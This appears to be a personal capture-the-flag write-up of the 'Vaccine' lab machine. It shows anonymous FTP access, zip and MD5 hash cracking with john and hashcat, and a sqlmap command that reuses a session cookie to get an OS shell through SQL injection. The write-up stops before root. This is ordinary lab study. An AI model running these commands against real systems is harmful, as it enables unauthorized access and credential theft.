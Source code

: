 **Title:** 00 - Vaccine
**Tags:** [[Very Easy]]
**Topics:** #ftp #SQL #SUID 

---

# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Linux | 11/06/2022 | ??? |

# Process
1. Login as `anonymous` on ftp service >  `get` the .zip and `unzip`.
2. Use John The Reapper to unzip the file.

# John The Reapper
There is a script call it `zip2john` that creates a hash out of a zip file. After, with this hash, we run a wordlist to brute force the password.

> Get the hash
```bash
$ zip2john backup.zip > hash.txt
```

> Brute Force the hash
```bash
$ john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> Show the password
```bash
$ john --show hash.txt
```

```ad-caution
Must `gunzip rockyou.txt.gz`
```

# MD5 Password
Inside index.php there was admin's password encrypted using MD5. 
To crack MD5 password execute this command:
```bash
$ sudo hashcat -m 0 pass.md5 /usr/share/wordlists/rockyou.txt
```


# SQL Injection
In the website there is a search bar that we can explote with SQL injection.
We can use sqlmap but before executing any command, we will need to grab the cookie to authenticat admin user. 
[//]: Install cooki-editor extension

```bash
$ sqlmap -u http://10.129.95.174/dashboard.php?search=hello --cookie="PHPSESSID=rp7ki2fucgrc0brl7f1l9j5p9e" --os-shell
```

User flag is in `/var/lib/postgresql/`

```ad-note
I found users flag but I lost in the proccess of creating a interactive shell.
I only need root flag.
```
